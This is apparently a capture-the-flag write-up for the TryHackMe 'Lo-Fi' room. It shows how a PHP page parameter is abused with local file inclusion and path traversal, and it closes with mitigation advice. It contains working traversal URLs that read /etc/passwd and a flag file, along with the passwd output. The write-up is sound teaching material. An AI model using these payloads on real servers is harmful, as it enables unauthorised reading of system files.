





# Lo-Fi


> Want to hear some lo-fi beats, to relax or study to? We've got you covered!

**Task:** find the flag in the root of the filesystem.

**Room link:** https://tryhackme.com/room/lofi

---

## 1. Verify the machine is running

```bash
ping -c 3 10.128.189.80
```

- `-c 3` sends 3 ICMP echo requests and then stops

```
PING 10.128.189.80 (10.128.189.80) 56(84) bytes of data.
64 bytes from 10.128.189.80: icmp_seq=1 ttl=62 time=11.4 ms
64 bytes from 10.128.189.80: icmp_seq=2 ttl=62 time=12.4 ms
64 bytes from 10.128.189.80: icmp_seq=3 ttl=62 time=10.7 ms

--- 10.128.189.80 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 10.692/11.496/12.413/0.707 ms
```

The machine is running.

## 2. Inspecting the main page



Every page link follows the pattern `?page=something.php`. The `page` GET parameter takes a filename (e.g. `?page=chill.php`), which strongly suggests the backend is using something like PHP's `include()` to pull one page into another.



## 3. Testing for Local File Inclusion (LFI)

If the application blindly includes whatever file the `page` parameter points to, we should be able to include arbitrary files on the server. Let's try `/etc/passwd`:

```
http://10.128.189.80/?page=/etc/passwd
```



That didn't return anything useful on its own, likely because the application prepends a fixed base directory to the parameter. So next we try escaping that directory with path traversal (`../`):

```
http://10.128.189.80/?page=../../../../../../../../../../../etc/passwd
```

- Adding many `../` sequences is safe even if we overshoot: once you reach the filesystem root, any extra `../` is simply ignored. Since we don't know how deep the web root is nested, stacking plenty of them guarantees we reach `/` regardless.

This works, and returns the contents of `/etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```



## 4. Reading the flag

Since we've confirmed arbitrary file read via path traversal, we apply the same technique to the flag file at the filesystem root:

```
http://10.128.189.80/?page=../../../../../../../../../../../flag.txt
```



Room solved.

## Takeaways

This is a textbook example of **LFI (Local File Inclusion)** combined with **path traversal**: the application takes user input and passes it directly into a file-include function without validating or sanitizing it, letting an attacker read arbitrary files on the server (and, in many real-world cases, escalate LFI into remote code execution).

**Mitigation:**
- Never pass user input directly into file-include functions.
- Use an allow-list of valid page names instead of taking a raw filename/path from the request.
- Strip or reject path traversal sequences (`../`) and enforce that resolved paths stay inside the intended directory (e.g. via `realpath()` checks).